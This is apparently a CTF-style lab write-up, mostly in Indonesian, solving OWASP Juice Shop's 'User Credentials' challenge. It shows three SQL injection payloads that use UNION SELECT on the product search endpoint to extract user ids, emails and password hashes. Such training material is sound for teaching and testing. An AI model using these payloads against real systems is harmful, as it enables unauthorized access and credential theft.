



# User Credentials OWASP Juice Shop

Link resource: https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

Retrieve a list of all user credentials via SQL Injection.

## Solusi

Vulnerable source code:



Untuk mengambil semua kredensial user, kita pakai titik akhir yang digunakan di atas, yaitu /rest/products/search?q=, tempat dipakainya `UNION SELECT` menggunakan tabel pengguna

```sql
')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--
```

Di sini kita periksa nama kolom dan mencoba seperti id, email, kata sandi dalam parameter.



```sql
')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

Tapi query tersebut tetap memberikan data lain, jadi kemungkinan besar ada kondisi atau filter yang belum sesuai dengan yang kita maksud.

```sql
p')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```


